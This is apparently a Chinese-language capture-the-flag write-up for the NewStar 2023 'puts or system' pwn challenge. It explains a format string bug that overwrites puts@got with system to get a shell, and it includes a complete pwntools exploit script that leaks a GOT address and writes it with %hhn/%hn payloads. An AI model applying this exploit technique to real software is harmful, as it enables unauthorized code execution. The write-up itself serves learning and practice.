 ```yaml
---
title: newstar2023 week3 - puts or system
date: 2023/10/12 12:00:00
tags:
    - noob
excerpt: 通过格式化字符串漏洞，将程序中的puts调用替换为system调用，成功获取shell。
---
```


## 文件分析

下载`putsorsys`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

程序可多次输入，且存在格式化字符串漏洞；在printf后，执行了`puts("/bin/sh")`  
根据题意，将puts调用替换为system调用就可以拿到shell

由于程序relro保护为partial，因此可以直接将`puts@got`地址改为system地址即可

## 踩过的坑

%n系列写地址输出过的字符是**累计的**，所以计算失误就会导致攻击失败，
因此可以把小的数字放在前面，大的数字放在后面，方便计算

## EXPLOIT

```python
from pwn import *
elf = ELF('putsorsys')
sh = remote('node4.buuoj.cn', 29595)
putsGot = elf.got['puts']

# payload 1
sh.sendline(b'1')
sh.sendlineafter(b'it', b'%9$sxxxx' + p64(putsGot)) # get puts@got

sh.recvuntil(b':\n')
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
#addr = putsGotAddr - 0x179bf0 + 0x14f760
addr = putsGotAddr - 0x180ed0 + 0x150d60 # libc given, shift puts to system
print(hex(addr))

# payload 2
sh.sendline(b'1')
highAddr = (addr & 0xff0000) >> 16
sh.sendlineafter(b'it', f'%{highAddr}c%11$hhn%{(addr & 0xffff) - highAddr}c%12$hn'.ljust(24, '0').encode() + p64(putsGot + 2) + p64(putsGot))

sh.interactive()
```

## 第一次三血！

<img src="/assets/newstar2023/3rdBlood.jpg" width="40%" title="好耶">

Done.

